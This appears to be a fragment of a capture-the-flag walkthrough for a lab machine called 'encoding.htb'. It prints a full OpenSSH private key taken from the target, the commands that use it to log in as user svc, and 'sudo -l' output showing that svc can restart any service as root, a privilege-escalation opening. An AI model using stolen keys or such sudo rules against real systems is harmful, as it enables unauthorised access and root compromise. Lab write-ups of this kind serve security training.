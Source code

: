 ```bash
vim encoding_svc_id_rsa
chmod 700 encoding_svc_id_rsa
ssh -i encoding_svc_id_rsa svc@encoding.htb 
```

```bash
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

- User `svc` has permissions to restart any service
```bash
sudo -l

Matching Defaults entries for svc on encoding:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on encoding:
    (root) NOPASSWD: /usr/bin/systemctl restart *
```

